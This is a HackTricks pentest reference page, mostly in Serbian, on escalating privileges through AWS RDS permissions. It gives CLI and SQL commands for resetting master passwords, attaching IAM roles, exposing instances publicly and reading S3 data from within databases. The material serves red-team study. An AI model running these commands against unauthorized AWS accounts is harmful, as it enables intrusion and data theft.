 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relational Database Service

Za više informacija o RDS proverite:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Sa tom dozvolom napadač može **izmeniti lozinku glavnog korisnika**, i prijavu unutar baze podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Biće potrebno da **kontaktirate bazu podataka** (obično su dostupne samo iz unutrašnjih mreža).
{% endhint %}

**Potencijalni uticaj:** Pronađite osetljive informacije unutar baza podataka.

### rds-db:connect

Prema [**dokumentaciji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), korisnik sa ovom dozvolom može da se poveže na DB instancu.

### Zloupotreba RDS Role IAM dozvola

#### Postgresql (Aurora)

{% hint style="success" %}
Ako pokrenete **`SELECT datname FROM pg_database;`** i pronađete bazu podataka pod nazivom **`rdsadmin`**, znate da ste unutar **AWS postgresql baze podataka**.
{% endhint %}

Prvo možete proveriti da li je ova baza podataka korišćena za pristup bilo kojoj drugoj AWS usluzi. To možete proveriti gledajući instalirane ekstenzije:
```sql
SELECT * FROM pg_extension;
```
Ako pronađete nešto poput **`aws_s3`**, možete pretpostaviti da ova baza podataka ima **neku vrstu pristupa S3** (postoje i druge ekstenzije kao što su **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`**, možete videti da li **klaster ima neku IAM ulogu prikačenu** u polju **`AssociatedRoles`**. Ako ima, možete pretpostaviti da je baza podataka **pripremljena za pristup drugim AWS uslugama**. Na osnovu **imena uloge** (ili ako možete dobiti **dozvole** uloge) mogli biste **pretpostaviti** koji dodatni pristup baza podataka ima.

Sada, da biste **pročitali datoteku unutar bucket-a**, morate znati punu putanju. Možete je pročitati sa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako imate **sirove AWS akreditive**, možete ih takođe koristiti za pristup S3 podacima sa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **ne treba da menja nijednu promenljivu u grupi parametara** da bi mogao da pristupi S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da ste unutar **AWS RDS mysql db**.
{% endhint %}

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive kao što su **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, imaju vrednosti, možete pretpostaviti da je baza podataka spremna za pristup S3 podacima.

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete proveriti da li klaster ima neku **povezanu ulogu**, što obično znači pristup AWS uslugama).

Sada, da **pročitate datoteku unutar bucket-a** potrebno je da znate punu putanju. Možete je pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećem RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.\
Napomena da neki DB-ovi zahtevaju dodatne konfiguracije kao što je Mysql, koji treba da specificira ARN u grupama parametara.

### `rds:CreateDBInstance`

Samo sa ovom dozvolom napadač bi mogao da kreira **novu instancu unutar klastera** koji već postoji i ima **IAM ulogu** prikačenu. Neće moći da promeni lozinku glavnog korisnika, ali bi mogao da izloži novu instancu baze podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač sa dozvolama `rds:CreateDBInstance` i `iam:PassRole` može **napraviti novu RDS instancu sa određenom ulogom povezanu**. Napadač može zatim potencijalno **pristupiti osetljivim podacima** ili izmeniti podatke unutar instance.

{% hint style="warning" %}
Neki zahtevi za ulogu/profil instance koji treba povezati (iz [**ovde**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil mora postojati u vašem nalogu.
* Profil mora imati IAM ulogu koju Amazon EC2 ima dozvolu da preuzme.
* Ime profila instance i ime povezane IAM uloge moraju početi sa prefiksom `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.

{% hint style="warning" %}
DB instanca mora biti van klastera za ovo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
